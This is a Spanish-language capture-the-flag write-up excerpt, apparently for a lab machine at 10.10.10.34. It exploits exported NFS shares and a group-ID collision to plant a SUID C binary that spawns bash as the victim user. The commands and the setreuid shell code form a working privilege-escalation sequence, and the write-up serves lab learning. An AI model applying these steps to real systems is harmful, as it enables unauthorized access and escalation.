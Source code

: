 ```bash
cat /etc/exports
```

Nos creamos dos monturas en nuestra maquina de atacante

```bash
mkdir /mnt/{opt,var}
cd /mnt
mount -t nfs 10.10.10.34:/opt /mnt/opt
mount -t nfs 10.10.10.34:/var/nfsshare /mnt/var
ls -l
ls -l opt/
ls -l opt/logreader
ls -l opt/rh
ls -l var/
```

Aqui vemos que no tenemos derechos de lectura ni de escritura sobre el directorio opt y var pero algo que nos llama la atencion son los user y groups asignados a estos 
directorios, sobre todo el directorio var que se nos aparece como estando del grupo docker.

```{r, echo = FALSE, fig.cap="groups nfs share folders", out.width="90%"}
    knitr::include_graphics("images/Jail-lla.png")
```

Esto suele pasar porque nuestro grupo docker en nuestra maquina de atacante tiene el mismo id que el usuario franck de la maquina victima. Esto significa que
hay una colision entre los dos grupos y que como usuario del grupo docker en nuestra maquina de atacante, podemos crear ficheros como el usuario franck de la
maquina victima

> [ ! ] NOTAS: Si no existe docker en nuestra maquina de atacante, tendriamos que ver el numero 1000 y tendriamos que crear un grupo con este id para operar

1. Creamos un fichero en C en el directorio `/mnt/var`

    ```bash
    #include <unistd.h>
    #include <stdio.h>

    int main(){
        setreuid(1000, 1000);
        system("/bin/bash");
        return 0;
    }
    ```

1. Compilamos el script

    ```bash
    gcc shell.c -o shell
    ```

1. Cambiamos el grupo y ponemos derechos SUID al binario

    ```bash
    chgrp 1000 shell
    chmod u+s shell
    ```
